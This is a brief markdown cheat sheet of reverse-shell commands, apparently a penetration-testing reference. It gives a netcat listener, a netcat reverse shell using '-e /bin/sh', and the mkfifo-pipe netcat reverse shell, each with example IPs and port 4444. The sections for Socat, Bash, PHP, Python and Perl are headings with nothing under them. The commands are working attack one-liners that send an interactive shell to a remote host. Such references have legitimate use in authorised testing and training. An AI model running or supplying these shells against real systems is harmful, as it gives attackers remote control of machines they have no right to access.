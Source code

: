 # Reverse Shells


## Netcat

### Setting A Listener

    nc -nvlp [Port]

#### Params

    [Port]: The port to listen for a connection on 

#### Examples

    nc -nlvp 4444

### With -e

Newer versions have a nice option `-e` which allows binding of a process to an nc connection

    nc -e /bin/sh [IP] [Port]

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    nc -e /bin/sh 192.168.56.101 4444

### Without -e

Older versions of nc don't have the nice `-e` option, so it has to be done slightly differently

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [Port] >/tmp/f

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.102 4444 >/tmp/f

## Socat



## Bash



## PHP



## Python



## Perl



*Note: Some shells here were sourced or modified from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet*